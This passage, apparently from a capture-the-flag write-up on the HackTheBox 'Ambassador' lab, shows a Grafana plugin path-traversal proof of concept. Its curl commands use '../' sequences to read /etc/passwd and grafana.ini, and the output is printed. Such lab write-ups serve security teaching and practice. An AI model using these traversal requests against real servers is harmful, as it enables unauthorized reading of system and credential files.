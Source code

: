 #### POC

Rather than use the script, I’ll grab a plugin at random from the list and try to access the URL on Ambassador with `curl` the same way it did in the script. I’ll use `--path-as-is` to prevent `curl` from fixing things like `../`. It fetches `/etc/passwd` successfully, showing file read:

```

oxdf@hacky$ curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...[snip]...
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false

```

### Grafana Access

#### grafana.ini

I can’t seem to read anything interesting in `/home/developer`, which suggests the webserver is running as another user (likely www-data).

There’s not much of interested to pull from the Hugo site, and I can read `/var/www/html/index.html` as the main page.

Grafana stores a config in `/etc/grafana/grafana.ini`, according to [the docs](https://grafana.com/docs/grafana/latest/setup-grafana/configure-grafana/). I’m able to read it:

```

oxdf@hacky$ curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini
##################### Grafana Configuration Example #####################
#
# Everything has defaults so you only need to uncomment things you want to
# change

# possible values : production, development
;app_mode = production

# instance name, defaults to HOSTNAME environment variable value or hostname if HOSTNAME var is empty
;instance_name = ${HOSTNAME}
...[snip]...

```
